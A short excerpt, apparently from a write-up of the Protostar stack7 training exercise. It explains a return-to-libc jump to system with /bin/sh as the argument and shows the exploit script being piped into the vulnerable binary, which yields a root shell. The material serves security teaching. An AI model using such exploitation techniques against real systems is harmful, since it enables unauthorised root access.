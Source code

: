 Once that the program execution has jumped to `system` the pointer to `/bin/sh` will be passed as an argument. After the exploit was executed, a shell was popped back:

```
$ (python exploit_stack7.py; cat) | /opt/protostar/bin/stack7
input path please: got path ����������������������������������������������������������������D������������D��췻����c�
whoami
root
```
**HAPPY HACKING :)**
